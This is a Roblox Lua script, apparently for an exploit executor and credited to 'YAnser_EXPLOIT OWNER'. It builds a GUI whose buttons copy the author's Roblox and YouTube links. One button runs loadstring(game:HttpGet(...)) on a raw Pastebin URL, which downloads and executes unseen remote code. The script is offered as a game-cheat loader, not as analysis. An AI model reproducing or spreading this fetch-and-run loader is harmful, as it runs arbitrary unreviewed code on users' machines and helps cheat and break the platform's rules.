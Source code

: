 -- Gui to Lua
-- Version: 3.2

-- Instances:

local ScreenGui = Instance.new("ScreenGui")
local Abrir = Instance.new("TextButton")
local UICorner = Instance.new("UICorner")
local Frame = Instance.new("Frame")
local UICorner_2 = Instance.new("UICorner")
local TextLabel = Instance.new("TextLabel")
local UICorner_3 = Instance.new("UICorner")
local TextLabel_2 = Instance.new("TextLabel")
local UICorner_4 = Instance.new("UICorner")
local perfil = Instance.new("TextButton")
local UICorner_5 = Instance.new("UICorner")
local Copiarlikndeyoutube = Instance.new("TextButton")
local UICorner_6 = Instance.new("UICorner")
local ejecutaelscript = Instance.new("TextButton")
local UICorner_7 = Instance.new("UICorner")
local TextButton = Instance.new("TextButton")
local UICorner_8 = Instance.new("UICorner")

--Properties:

ScreenGui.Parent = game.Players.LocalPlayer:WaitForChild("PlayerGui")
ScreenGui.ZIndexBehavior = Enum.ZIndexBehavior.Sibling
ScreenGui.ResetOnSpawn = false

Abrir.Name = "Abrir"
Abrir.Parent = ScreenGui
Abrir.BackgroundColor3 = Color3.fromRGB(0, 255, 8)
Abrir.BorderColor3 = Color3.fromRGB(0, 0, 0)
Abrir.BorderSizePixel = 0
Abrir.Position = UDim2.new(0, 0, 0.732171118, 0)
Abrir.Size = UDim2.new(0, 162, 0, 41)
Abrir.Font = Enum.Font.Bangers
Abrir.Text = "abrir"
Abrir.TextColor3 = Color3.fromRGB(0, 0, 0)
Abrir.TextScaled = true
Abrir.TextSize = 14.000
Abrir.TextWrapped = true

UICorner.Parent = Abrir

Frame.Parent = ScreenGui
Frame.BackgroundColor3 = Color3.fromRGB(28, 255, 12)
Frame.BorderColor3 = Color3.fromRGB(0, 0, 0)
Frame.BorderSizePixel = 0
Frame.Position = UDim2.new(0.660262883, 0, 0.160063386, 0)
Frame.Size = UDim2.new(0, 336, 0, 180)
Frame.Visible = false
Frame.Active = true
Frame.Draggable = true

UICorner_2.Parent = Frame

TextLabel.Parent = Frame
TextLabel.BackgroundColor3 = Color3.fromRGB(38, 255, 0)
TextLabel.BorderColor3 = Color3.fromRGB(0, 0, 0)
TextLabel.BorderSizePixel = 0
TextLabel.Position = UDim2.new(0, 0, 0.48888889, 0)
TextLabel.Size = UDim2.new(0, 336, 0, 40)
TextLabel.Font = Enum.Font.Bangers
TextLabel.Text = "Creado por ELOSO: HElPER"
TextLabel.TextColor3 = Color3.fromRGB(0, 0, 0)
TextLabel.TextScaled = true
TextLabel.TextSize = 14.000
TextLabel.TextWrapped = true

UICorner_3.Parent = TextLabel

TextLabel_2.Parent = Frame
TextLabel_2.BackgroundColor3 = Color3.fromRGB(38, 255, 0)
TextLabel_2.BorderColor3 = Color3.fromRGB(0, 0, 0)
TextLabel_2.BorderSizePixel = 0
TextLabel_2.Size = UDim2.new(0, 336, 0, 40)
TextLabel_2.Font = Enum.Font.Bangers
TextLabel_2.Text = "frame CReado POr YAnser_EXPLOIT OWNER"
TextLabel_2.TextColor3 = Color3.fromRGB(252, 26, 26)
TextLabel_2.TextScaled = true
TextLabel_2.TextSize = 14.000
TextLabel_2.TextStrokeColor3 = Color3.fromRGB(104, 26, 0)
TextLabel_2.TextWrapped = true

UICorner_4.Parent = TextLabel_2

perfil.Name = "perfil"
perfil.Parent = Frame
perfil.BackgroundColor3 = Color3.fromRGB(26, 255, 0)
perfil.BorderColor3 = Color3.fromRGB(0, 0, 0)
perfil.BorderSizePixel = 0
perfil.Position = UDim2.new(0, 0, 0.711111128, 0)
perfil.Size = UDim2.new(0, 336, 0, 48)
perfil.Font = Enum.Font.Cartoon
perfil.Text = "COPIAR LIK DE  PERFIL ROBLOX "
perfil.TextColor3 = Color3.fromRGB(0, 0, 0)
perfil.TextScaled = true
perfil.TextSize = 14.000
perfil.TextWrapped = true

UICorner_5.Parent = perfil

Copiarlikndeyoutube.Name = "Copiar likn de youtube"
Copiarlikndeyoutube.Parent = Frame
Copiarlikndeyoutube.BackgroundColor3 = Color3.fromRGB(26, 255, 0)
Copiarlikndeyoutube.BorderColor3 = Color3.fromRGB(0, 0, 0)
Copiarlikndeyoutube.BorderSizePixel = 0
Copiarlikndeyoutube.Position = UDim2.new(0, 0, 0.222222224, 0)
Copiarlikndeyoutube.Size = UDim2.new(0, 336, 0, 48)
Copiarlikndeyoutube.Font = Enum.Font.Bangers
Copiarlikndeyoutube.Text = "COPIAR LIKN DE YOUTUBE"
Copiarlikndeyoutube.TextColor3 = Color3.fromRGB(255, 0, 0)
Copiarlikndeyoutube.TextScaled = true
Copiarlikndeyoutube.TextSize = 14.000
Copiarlikndeyoutube.TextWrapped = true

UICorner_6.Parent = Copiarlikndeyoutube

ejecutaelscript.Name = "ejecuta el script"
ejecutaelscript.Parent = Frame
ejecutaelscript.BackgroundColor3 = Color3.fromRGB(26, 255, 0)
ejecutaelscript.BorderColor3 = Color3.fromRGB(0, 0, 0)
ejecutaelscript.BorderSizePixel = 0
ejecutaelscript.Position = UDim2.new(-0.0178571437, 0, 1.13333333, 0)
ejecutaelscript.Size = UDim2.new(0, 336, 0, 48)
ejecutaelscript.Font = Enum.Font.Bangers
ejecutaelscript.Text = "EJECUTAR EL SCRIPT"
ejecutaelscript.TextColor3 = Color3.fromRGB(0, 0, 0)
ejecutaelscript.TextScaled = true
ejecutaelscript.TextSize = 14.000
ejecutaelscript.TextWrapped = true
ejecutaelscript.MouseButton1Click:Connect(function()
	loadstring(game:HttpGet("https://pastebin.com/raw/pUvk88GY"))()
end)

UICorner_7.Parent = ejecutaelscript

TextButton.Parent = Frame
TextButton.BackgroundColor3 = Color3.fromRGB(255, 30, 0)
TextButton.BorderColor3 = Color3.fromRGB(0, 0, 0)
TextButton.BorderSizePixel = 0
TextButton.Position = UDim2.new(0.791666687, 0, -0.150000006, 0)
TextButton.Size = UDim2.new(0, 64, 0, 27)
TextButton.Font = Enum.Font.Bangers
TextButton.Text = "X"
TextButton.TextColor3 = Color3.fromRGB(0, 0, 0)
TextButton.TextScaled = true
TextButton.TextSize = 14.000
TextButton.TextWrapped = true

UICorner_8.Parent = TextButton

-- Scripts:

local function XMBNBY_fake_script() -- Abrir.LocalScript 
	local script = Instance.new('LocalScript', Abrir)

	local player = game.Players.LocalPlayer
	
	script.Parent.MouseButton1Click:Connect(function()
		player.PlayerGui.ScreenGui.Frame.Visible = true
	end)
end
coroutine.wrap(XMBNBY_fake_script)()
local function WJWB_fake_script() -- perfil.LocalScript 
	local script = Instance.new('LocalScript', perfil)

	-- LocalScript dentro del TextButton
	
	local textButton = script.Parent -- El TextButton en el que este script está adjunto
	local linkToCopy = "https://www.roblox.com/es/users/3665892293/profile" -- El enlace que deseas copiar al portapapeles
	
	-- Función que cambia el texto del botón a "Copiado"
	local function cambiarTexto()
		textButton.Text = "Copiado gracias!"
	end
	
	-- Función para copiar el enlace al portapapeles
	local function copiarAlPortapapeles()
		setclipboard(linkToCopy) -- Usa la función setclipboard para copiar al portapapeles
	end
	
	-- Evento para detectar cuando se hace clic en el TextButton
	textButton.MouseButton1Click:Connect(function()
		copiarAlPortapapeles() -- Copiar el enlace
		cambiarTexto() -- Cambiar el texto a "Copiado"
	end)
	
end
coroutine.wrap(WJWB_fake_script)()
local function DQXFIKZ_fake_script() -- Copiarlikndeyoutube.LocalScript 
	local script = Instance.new('LocalScript', Copiarlikndeyoutube)

	-- LocalScript dentro del TextButton
	
	local textButton = script.Parent -- El TextButton en el que este script está adjunto
	local linkToCopy = "https://www.youtube.com/@YANSER_EXPLOIT" -- El enlace que deseas copiar al portapapeles
	
	-- Función que cambia el texto del botón a "Copiado"
	local function cambiarTexto()
		textButton.Text = "Copiado"
	end
	
	-- Función para copiar el enlace al portapapeles
	local function copiarAlPortapapeles()
		setclipboard(linkToCopy) -- Usa la función setclipboard para copiar al portapapeles
	end
	
	-- Evento para detectar cuando se hace clic en el TextButton
	textButton.MouseButton1Click:Connect(function()
		copiarAlPortapapeles() -- Copiar el enlace
		cambiarTexto() -- Cambiar el texto a "Copiado"
	end)
	
	
end
coroutine.wrap(DQXFIKZ_fake_script)()
local function PTXINB_fake_script() -- TextButton.LocalScript 
	local script = Instance.new('LocalScript', TextButton)

	local player = game.Players.LocalPlayer
	
	script.Parent.MouseButton1Click:Connect(function()
		player.PlayerGui.ScreenGui.Frame.Visible = false
	end)
end
coroutine.wrap(PTXINB_fake_script)()

